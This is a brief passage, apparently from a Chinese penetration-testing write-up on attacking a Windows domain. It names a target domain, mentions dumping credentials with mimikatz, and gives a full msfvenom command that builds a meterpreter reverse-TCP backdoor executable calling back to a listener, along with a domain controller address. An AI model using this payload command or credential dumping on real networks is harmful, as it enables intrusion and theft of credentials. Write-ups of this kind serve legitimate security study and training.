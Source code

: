 # 域渗透

## 域内信息收集

发现域名为 data.vsmoon.com

[![](assets/1698990322-1d0b4ea5b5e4d291e8ae10d103f3e469.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231102173305-d38fcd94-7962-1.png)

然后用 mimikatz 获取凭证

## msf 跨路由访问域控

使用 msf 生成后门。  
msfvenom -p windows/x64/meterpreter/reverse\_tcp lhost=192.168.0.128 lport=6666  
\-f exe > shell.exe  
[![](assets/1698990322-78bcb495cfd273f1748295960015eeda.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231102173320-dc124974-7962-1.png)  
域控地址为：10.10.10.137
